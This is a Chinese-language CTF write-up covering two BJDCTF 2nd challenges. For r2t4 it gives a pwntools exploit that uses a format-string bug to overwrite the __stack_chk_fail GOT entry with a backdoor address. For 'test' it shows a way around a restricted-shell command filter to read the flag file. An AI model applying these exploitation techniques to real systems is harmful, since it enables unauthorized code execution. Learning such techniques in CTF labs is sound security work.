 ```yaml
---
title: _stack_chk_fail
categories: 
    - Stack
    - _stack_chk_fail
---
```

# _stack_chk_fail
<!--more-->
#### BJDCTF_2nd
## r2t4

#### 格式化字符串 + _stack_chk_fail


看ida

![20201223180634](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223180634.png)

checksec发现开启了canary

![20201223180812](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223180812.png)

所以不能利用简单的栈溢出了

发现printf函数有格式化字符串漏洞可以利用

并且程序给了backdoor，地址是：0x400626

![20201223180855](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223180855.png)

思路是通过这个漏洞，把 stack_chk_fail 的 got表给改掉，改成 backdoor 的地址，这样当程序发现 canary 被修改去调用 stack_chk_fail 的时候就调用了 backdoor

![20201223181044](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223181044.png)

手撸出printf格式化字符串的偏移

![20201223181608](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223181608.png)

确定是第六个



exp:

```python
from pwn import *
context(arch='amd64',os='linux',word_size='64')

p = remote("127.0.0.1",12345)
elf = ELF('./r2t4')
__stack_chk_fail = elf.got['__stack_chk_fail']

payload = "%64c%9$hn%1510c%10$hnAAA" + p64(__stack_chk_fail+2) + p64(__stack_chk_fail)
p.sendline(payload)
p.interactive()
```

9=6+3，3是`"%64c%9$hn%1510c%10$hnAAA"`占了24个比特，也就是3个字节



```python
%64c%9$hn           %64c：0x0040（目标地址高位）            %9：更改第九位数字      $hn：两个字节（0000 0000 （八比特））
%1510c%10$hnAAA     %1510c：1510+64=0x0626（目标地址低位）  %10：更改第十位数字     $hn：两个字节   AAA:补齐成8的倍数

```




## test

#### 命令执行

参考：https://blog.csdn.net/qin9800/article/details/105058058

![20201223191550](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223191550.png)

用 `ssh -p 28572 ctf@node3.buuoj.cn` 链接

![20201223191650](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223191650.png)

发现三个文件，flag文件无法cat

看一下c文件

![20201223191806](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223191806.png)

发现是过滤命令

可以通过

`ls /usr/bin/ /bin/ | grep -v -E "n|e|p|b|u|s|h|i|f|l|a|g"`

查看还有什么命令是可以用的

```
-v 或 --revert-match : 显示不包含匹配文本的所有行。
-E 或 --extended-regexp : 将样式为延伸的正则表达式来使用。
```

![20201223192201](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223192201.png)

可以用 od 和 x86_64

Linux od命令用于输出文件内容。

od指令会读取所给予的文件的内容，并将其内容以八进制字码呈现出来。


x86_64

![20201223193256](https://raw.githubusercontent.com/YTrick/image/branch/image/20201223193256.png)



